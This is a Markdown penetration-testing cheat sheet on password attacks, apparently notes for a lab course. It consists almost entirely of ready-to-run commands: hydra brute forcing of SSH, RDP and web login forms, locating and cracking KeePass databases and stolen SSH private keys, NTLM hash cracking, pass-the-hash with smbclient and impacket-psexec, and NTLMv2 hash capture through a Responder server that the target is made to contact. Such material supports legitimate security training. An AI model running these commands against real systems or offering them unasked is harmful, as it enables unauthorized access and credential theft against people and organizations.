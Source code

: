 # SSH or RDP
## Bruteforce User
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202

## HTTP POST Login Form
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

# Hash Cracking
1. Extract hashes
2. Format hashes
3. Prepare wordlist
4. Attack the hash
   
## Password Managers
- Searching for KeePass database files
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

## Using keepass2john to format the KeePass database for Hashcat
- JtR script prepended the filename Database to the hash, **remove Database string**
keepass2john Database.kdbx > keepass.hash

## Cracking the KeePass database hash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

## Stolen Private Keys
chmod 600 id_rsa 

ssh2john id_rsa > ssh.hash

- use /usr/share/hashcat/rules/rockyou-30000.rule 

sudo sh -c 'cat /home/araara/Downloads/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash 

ssh -i id_rsa -p 2222 dave@192.168.230.201

# NTLM 
## Crack the Hash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

[Refer to Mimikatz](https://github.com/arasakai17/CHEAT_SHEETS/blob/main/Mimikatz.md)
## Pass the Hash
- Don't crack if you can just pass the hash
1. smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
2. impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

# NTLMv2
Use [Responder](https://github.com/arasakai17/CHEAT_SHEETS/blob/main/MITM_Auth_Server.md)
Auth Server and capture the client NTLMv2 Hash.

## Attacker machine with fake Auth Server
sudo responder -I tun0

## From a shell on Target machine query Auth Server
dir \192.168.45.197\test
